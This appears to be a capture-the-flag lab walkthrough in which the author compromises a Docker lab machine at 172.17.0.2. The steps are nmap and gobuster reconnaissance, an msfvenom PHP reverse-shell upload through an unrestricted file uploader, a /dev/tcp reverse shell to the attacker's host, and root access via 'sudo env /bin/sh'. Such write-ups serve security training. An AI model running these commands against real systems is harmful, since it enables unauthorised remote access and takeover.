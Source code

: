 
![Pasted image 20250205134718](https://github.com/user-attachments/assets/c559485b-954b-4aaa-b2c9-78db12544ae2)

## **We test the connection with the victim machine**

```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/ca42314b-8c8c-4636-8527-5ec06a9783e6)

    ttl =64 ==> linux OS

## **As the victim machine is within reach, we will send a request for a response with the ports that are open.**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/cb381a7f-8e0f-4e96-83b5-09b4d86167f5)

    -oG AllPorts = save the output in the AllPorts file.

## **Now we launch a port scan**

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/be9abb3a-7a49-42e6-94d0-7993b2212504)

## **With this we only conclude that our attack will focus only on port 80 which is the web page, so we will analyze it.**

![image](https://github.com/user-attachments/assets/d60cf894-e4d3-41c4-be9a-1bb7dac9ae1c)

## **It is a simple website to upload files and store them so we will upload test files to see what formats it accepts.**

![image](https://github.com/user-attachments/assets/11ec69e4-ae17-42ea-992f-578f6ac82d21)
![image](https://github.com/user-attachments/assets/6fc481b1-b4d8-40fe-a6c6-b72f6366251f)
![image](https://github.com/user-attachments/assets/bb387ee1-c8a5-4c22-9d4d-53a600cb5005)
![image](https://github.com/user-attachments/assets/fdcaa1af-ce50-4426-82a0-024d6d5ffbdd)

## **We have managed to upload the files but we do not know where they are so we will apply fuzzing to discover new directories.**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/4cb06ba9-d0a3-44d3-8c88-542e7cafb43e)
![image](https://github.com/user-attachments/assets/b99a440d-9023-4202-9584-f063d335b13a)

## **As we can see we find the destination where our files are stored, so if we can upload a malicious file to get a revershell we could have access to the machine.**
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.228=443 -f raw >ARCHIVO_NEW.php
```
![image](https://github.com/user-attachments/assets/7492d350-4877-40bd-a8f8-109315f00545)
![image](https://github.com/user-attachments/assets/c313d3ae-14aa-4676-8aca-9f3daedcb7fd)

## **We will upload our malicious file**

![image](https://github.com/user-attachments/assets/76debd5b-3d09-4248-b8be-841cb1454b39)
![image](https://github.com/user-attachments/assets/608e6707-f2fd-49b9-a47e-3f74d27c12b6)

## **we go into listening mode**
```bash
nc -nlvp 443
```

![image](https://github.com/user-attachments/assets/8a99c7f9-9376-45f2-9c6a-dba95150719b)

## **we open our malicious file**

![image](https://github.com/user-attachments/assets/1b72181e-44c5-4d1a-bf28-54c93568d82c)

## **we have connectionn!!!**

![image](https://github.com/user-attachments/assets/03b641b6-97cd-4fc6-96db-941fd855c6ec)

## **To stabilize the connection we will send the traffic to another of our ports.**
```bash
nc nlvp 444
```
![image](https://github.com/user-attachments/assets/8ef08de8-fa7f-4353-b569-5468cebabdaf)


```bash
bash -c "sh -i >& /dev/tcp/192.168.1.228/444 0>&1"
```
![image](https://github.com/user-attachments/assets/d671a70c-f134-40f5-b447-2fe1407e95d4)

## **We already have a new connection**

![image](https://github.com/user-attachments/assets/ccc3cd25-5388-4e40-b689-58111ec9aa1c)

## **now we will make a treatment of the tty**

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
## **Finally we have a treated and stabilized tty**

![image](https://github.com/user-attachments/assets/7618d11b-74e2-4a92-b1b8-c845616ac316)

## **Now we will escalate privileges**

```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/89003549-6cc4-405f-9eb1-0aec574ae83c)
![image](https://github.com/user-attachments/assets/f8135744-7786-4d69-876f-bcc989e65687)

```bash
sudo env /bin/sh
```
![image](https://github.com/user-attachments/assets/6d04adb6-8c59-495c-a212-fcac90a68b28)





